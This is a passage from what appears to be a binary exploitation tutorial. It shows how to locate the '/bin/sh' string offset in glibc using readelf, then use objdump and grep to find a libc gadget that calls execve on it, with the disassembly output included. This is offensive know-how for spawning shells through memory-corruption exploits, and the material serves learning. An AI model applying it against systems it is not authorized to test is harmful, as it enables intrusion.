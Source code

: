 ```
readelf -p .rodata /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

Which for me yields:

```
[ 175b9]  /bin/sh
```

If we add `0x14a660` (`.rodata` offset within `libc`) with `0x175b9`
("/bin/sh" offset within `.rodata`) we get `0x161c19`
(offset of "/bin/sh" from the beggining of `libc`).

Obs.: We also could have gathered this result with `strings -t x
/lib/x86_64-linux-gnu/libc.so.6`.

If we added this result to the address `libc` will be loaded to
when linked (given by `ldd`) we could get which address "/bin/sh"
would be loaded to when the program is run.

However, within the `libc` code its elements are all referenced
using the offset, so we just need `0x161c19` to filter our
search for gadgets.

### Finding the Gadget

We need a gadget that calls `execve` and `system` using "/bin/sh".

We can use `grep` with `objdump` to filter our searches.

First, let's look for `system`:

```
objdump -D -M intel-mnemonic /lib/x86_64-linux-gnu/libc.so.6 | grep -B 5 "system" | grep -C 3 "161c19"
```

Besides dumping the `libc` code, this command uses `grep` to print
the 5 lines that come before `system`. The result of this search
is given to another `grep` call, that prints 3 lines before and
after the "/bin/sh" offset we found.

For my version of `libc`, nothing is found.

If we try with execve though:

```
objdump -D -M intel-mnemonic /lib/x86_64-linux-gnu/libc.so.6 | grep -B 5 "execve" | grep -C 3 "161c19"
```

I get:

```
--
b8c07:	48 89 ca             	mov    rdx,rcx
b8c0a:	e8 81 b2 fc ff       	call   83e90 <memcpy@GLIBC_2.2.5>
b8c0f:	48 8d 3d 03 90 0a 00 	lea    rdi,[rip+0xa9003]        # 161c19 <_libc_intl_domainname@@GLIBC_2.2.5+0x159>
b8c16:	4c 89 e2             	mov    rdx,r12
b8c19:	4c 89 ee             	mov    rsi,r13
b8c1c:	e8 1f fa ff ff       	call   b8640 <execve@@GLIBC_2.2.5>
--
d6b9a:	e8 81 53 00 00       	call   dbf20 <__close@@GLIBC_2.2.5>
d6b9f:	48 8b 05 12 23 2c 00 	mov    rax,QWORD PTR [rip+0x2c2312]        # 398eb8 <__environ@@GLIBC_2.2.5-0x3080>
d6ba6:	48 8d 74 24 60       	lea    rsi,[rsp+0x60]
d6bab:	48 8d 3d 67 b0 08 00 	lea    rdi,[rip+0x8b067]        # 161c19 <_libc_intl_domainname@@GLIBC_2.2.5+0x159>
d6bb2:	48 8b 10             	mov    rdx,QWORD PTR [rax]
d6bb5:	e8 86 1a fe ff       	call   b8640 <execve@@GLIBC_2.2.5>
```